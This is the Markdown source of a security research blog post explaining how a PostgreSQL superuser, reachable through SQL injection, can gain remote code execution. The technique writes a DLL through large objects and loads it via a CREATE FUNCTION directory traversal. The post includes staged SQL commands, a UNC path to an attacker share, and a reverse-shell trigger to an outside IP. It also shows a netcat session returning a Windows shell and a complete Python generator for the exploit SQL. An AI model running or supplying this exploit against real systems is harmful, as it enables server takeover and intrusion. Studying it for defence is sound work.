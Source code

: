 ```yaml
---
layout: post
title: "SQL Injection Double Uppercut :: How to Achieve Remote Code Execution Against PostgreSQL"
date: 2020-06-26 09:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<img class="excel" alt="Postgres" src="/assets/images/sql-injection-double-uppercut-how-to-achieve-remote-code-execution/pg.png">
<p class="cn" markdown="1">When I was researching exploit primitives for the SQL Injection vulnerabilities discovered in [Cisco DCNM](/blog/2020/01/14/busting-ciscos-beans-hardcoding-your-way-to-hell.html), I came across a generic technique to exploit SQL Injection vulnerabilities against a PostgreSQL database. When developing your exploit primitives, it's always prefered to use an *application technique*, that doesn't rely on some other underlying technology.</p>

<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*I share yet another technique to achieve remote code execution against PostgreSQL Database.*</p>

<p class="cn" markdown="1">An application technique would be the ability to compromise the database integrity and leverage the trust between the application code and the database. In the case of Cisco DCNM, I found 4 different techniques, 2 of which I blogged about (directory traveral and deserialization).</p>

## Prior Research

<p class="cn" markdown="1">Although I didn't know it at the time, [Jacob Wilkin](https://twitter.com/Jacob_Wilkin) had [reported a simpler approach](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) to achieving code execution against PostgreSQL by (ab)using [copy from program](https://www.postgresql.org/docs/12/sql-copy.html). Recently, Denis Andzakovic also [detailed](https://pulsesecurity.co.nz/articles/postgres-sqli) his way of gaining code execution against PostgreSQL as well by (ab)using read/writes to the `postgresql.conf` file.</p>

<p class="cn" markdown="1">I was originally going to sit on this technique, but since Denis exposed the power of `lo_export` for exploitation, I figured one more nail on the coffin wouldn't hurt ;-></p>

<p class="cn" markdown="1">I did some testing and discovered that under windows, the NETWORK_SERVICE cannot modify the `postgresql.conf` file, so Denis's technique is *nix specific. However, his technique doesn't require stacked queries, making it powerful in certain contexts.</p>

## CREATE FUNCTION obj_file Directory Traversal

<div markdown="1" class="cn">
- CVE: N/A
- CVSS: 4.1 [(AV:N/AC:H/PR:H/UI:N/S:U/C:L/I:L/A:L)](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?calculator&version=3.0&vector=(AV:N/AC:H/PR:H/UI:N/S:U/C:L/I:L/A:L))
</div>

### Environment

<p class="cn" markdown="1">This technique works on both *nix and Windows but does require stacked queries since we are leveraging the [create function](https://www.postgresql.org/docs/12/sql-createfunction.html) operative.</p>

### Summary

<p class="cn" markdown="1">On the latest versions of PostgreSQL, the `superuser` is no longer allowed to load a shared library file from anywhere else besides `C:\Program Files\PostgreSQL\11\lib` on Windows or `/var/lib/postgresql/11/lib` on *nix. Additionally, this path is **not writable** by either the NETWORK_SERVICE or postgres accounts.</p>

<p class="cn" markdown="1">However, an authenticated database `superuser` can write binary files to the filesystem using "large objects" and can of course write to the `C:\Program Files\PostgreSQL\11\data` directory. The reason for this should be clear, for updating/creating tables in the database.</p>

<p class="cn" markdown="1">The underlying issue is that the `CREATE FUNCTION` operative allows for a directory traversal to the data directory! So essentially, an authenticated attacker can write a shared library file into the data directory and use the traversal to load the shared library. This means an attacker can get native code execution and as such, execute arbitrary code.</p>

### Attack Flow

<p class="cn" markdown="1">**Stage 1 -** We start by creating an entry into the `pg_largeobject` table.</p>

```sql
select lo_import('C:/Windows/win.ini', 1337);
```

<p class="cn" markdown="1">We could have easily used a UNC path here (and skip step 3), but since we want a platform independant technique, we will avoid this.</p>

<p class="cn" markdown="1">**Stage 2 -** Now we modify the `pg_largeobject` entry to contain a complete extension. This extension needs to be compiled against the exact major version of the target PostgreSQL database as well as matching its architecture.</p>

<p class="cn" markdown="1">For a file that is > 2048 bytes in length, the `pg_largeobject` table uses the `pageno` field. So we must break our file up into chunks of size 2048 in bytes.</p>

```sql
update pg_largeobject SET pageno=0, data=decode(4d5a90...) where loid=1337;
insert into pg_largeobject(loid, pageno, data) values (1337, 1, decode(74114d...));
insert into pg_largeobject(loid, pageno, data) values (1337, 2, decode(651400...));
...
```

<p class="cn" markdown="1">It maybe possible to skip stage 1 (and only performing a single statement execution for stage 2) by using [object identifier types](https://www.postgresql.org/docs/8.1/datatype-oid.html) within PostgreSQL, but I have not had the time to confirm this.</p>

<p class="cn" markdown="1">**Stage 3 -** Now we can write our binary into the data directory. Remember, we can't use traversals here since that is checked, but even if we could, strict file permissions for the NETWORK_SERVICE account exist and we have limited options.</p>

```sql
select lo_export(1337, 'poc.dll');
```

<p class="cn" markdown="1">**Stage 4 -** Now, let's trigger the loading of the library.</p>

<p class="cn" markdown="1">I demonstrated in a class I taught a few years back that you can use fixed paths (including UNC) to load extensions against PostgreSQL version 9.x, thus gaining native code execution. [@zerosum0x0](https://twitter.com/zerosum0x0) [demonstrated this](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html) by using the file write technique with a fixed path on the filesystem. But back then, permissions on the filesystem were not as restrictive.</p>

```sql
create function connect_back(text, integer) returns void as '//attacker/share/poc.dll', 'connect_back' language C strict;
```

<p class="cn" markdown="1">However, a few years passed and the PostgreSQL developers decided to block fixed paths and alas, that technique is now dead. But we can simply traverse from the lib directory and load our extension! The underlying code of the `create function` appends the `.dll` string, so don't worry about appending it:</p>

```sql
create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;
```

<p class="cn" markdown="1">**Stage 5 -** Trigger your reverse shell.</p>

```sql
select connect_back('192.168.100.54', 1234);
```
			
### Things to consider

<div markdown="1" class="cn">
- You can also load DllMain, but pwning your error log is a one way ticket to detection!
- As mentioned, you will need to compile the dll/so file using the same PostgreSQL version including architecture.
- You can download the extension I used [here](https://github.com/sourceincite/tools/blob/master/pgpwn.c) but you will need to compile it yourself.
</div>

### Fun Facts

<p class="cn" markdown="1">ZDI initially aquired this case but never published an advisory and I was later told that the vendor wasn't patching the issue since it's considered a *feature not a bug*.</p>

### Automation

<p class="cn" markdown="1">This code will generate a poc.sql file to run on the database as the superuser. Example:</p>

```
steven@pluto:~/postgres-rce$ ./poc.py 
(+) usage ./poc.py <connectback> <port> <dll/so>
(+) eg: ./poc.py 192.168.100.54 1234
steven@pluto:~/postgres-rce$ ./poc.py 192.168.100.54 1234 si-x64-12.dll
(+) building poc.sql file
(+) run poc.sql in PostgreSQL using the superuser
(+) for a db cleanup only, run the following sql:
    SELECT lo_unlink(l.oid) FROM pg_largeobject_metadata l;
    DROP FUNCTION connect_back(text, integer);
steven@pluto:~/postgres-rce$ nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 192.168.100.122 49165 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\PostgreSQL\12\data>whoami
nt authority\network service

C:\Program Files\PostgreSQL\12\data>
```

```py
#!/usr/bin/env python3
import sys

if len(sys.argv) != 4:
    print("(+) usage %s <connectback> <port> <dll/so>" % sys.argv[0])
    print("(+) eg: %s 192.168.100.54 1234 si-x64-12.dll" % sys.argv[0])
    sys.exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
lib = sys.argv[3]
with open(lib, "rb") as dll:
    d = dll.read()
sql = "select lo_import('C:/Windows/win.ini', 1337);"
for i in range(0, len(d)//2048):
    start = i * 2048
    end   = (i+1) * 2048
    if i == 0:
        sql += "update pg_largeobject set pageno=%d, data=decode('%s', 'hex') where loid=1337;" % (i, d[start:end].hex())
    else:
        sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % (i, d[start:end].hex())
if (len(d) % 2048) != 0:
    end   = (i+1) * 2048
    sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % ((i+1), d[end:].hex())

sql += "select lo_export(1337, 'poc.dll');"
sql += "create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;"
sql += "select connect_back('%s', %d);" % (host, port)
print("(+) building poc.sql file")
with open("poc.sql", "w") as sqlfile:
    sqlfile.write(sql)
print("(+) run poc.sql in PostgreSQL using the superuser")
print("(+) for a db cleanup only, run the following sql:")
print("    select lo_unlink(l.oid) from pg_largeobject_metadata l;")
print("    drop function connect_back(text, integer);")
```

## References

<div markdown="1" class="cn">
- [https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html)
- [https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
- [https://pulsesecurity.co.nz/articles/postgres-sqli](https://pulsesecurity.co.nz/articles/postgres-sqli)
</div>
